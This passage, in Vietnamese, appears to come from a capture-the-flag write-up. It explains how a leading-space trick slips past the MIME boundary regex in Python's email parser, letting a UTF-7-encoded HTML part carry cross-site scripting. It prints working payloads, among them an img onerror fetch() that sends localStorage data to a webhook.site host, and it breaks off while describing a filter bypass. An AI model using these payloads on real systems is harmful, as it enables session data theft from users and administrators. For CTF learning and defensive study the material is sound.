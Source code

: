 Nhưng khi xem đến phần regex để tìm boundary này thì mình mới hiểu là nó sẽ tìm dấu -- ở đầu mỗi line và đó là boundary 

```python
cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
```

Nhưng nếu ta bypass bằng dấu cách ở đầu như thế này thì sao? 

```email
test

    --==============={admin_boundary}==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
    --==============={admin_boundary}==
```

And yeah regex sẽ không tìm được và mình đã XSS thành công 

![image](https://hackmd.io/_uploads/rk59g9AhJg.png)

#### Final attack 

Okay bước cuối cùng là wrap payload vào

Lúc đầu thì mình sử dụng payload sau để catch webhook

```html
<img src="x" onerror=fetch('https://webhook.site/1639fb06-1baf-48d4-868f-001ae363e147'+localStorage.getItem("flag")) />
```

```email
test

    --==============={admin_boundary}==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-fetch('webhook-url'+-localStorage.getItem(+ACI-flag+ACI-))+ACA-/+AD4-
    --==============={admin_boundary}==
```

And well, nó bị lỗi

![image](https://hackmd.io/_uploads/HkecmqChkl.png)

check log thì mình phát hiện là trong khi parse code đã detect được embedded header 

![image](https://hackmd.io/_uploads/H1wrvpRnJg.png)

Đó là do trong https:// đã vi phạm regex ở phần trên nên mình tiến hành bypass bằng cách bỏ đi https: 
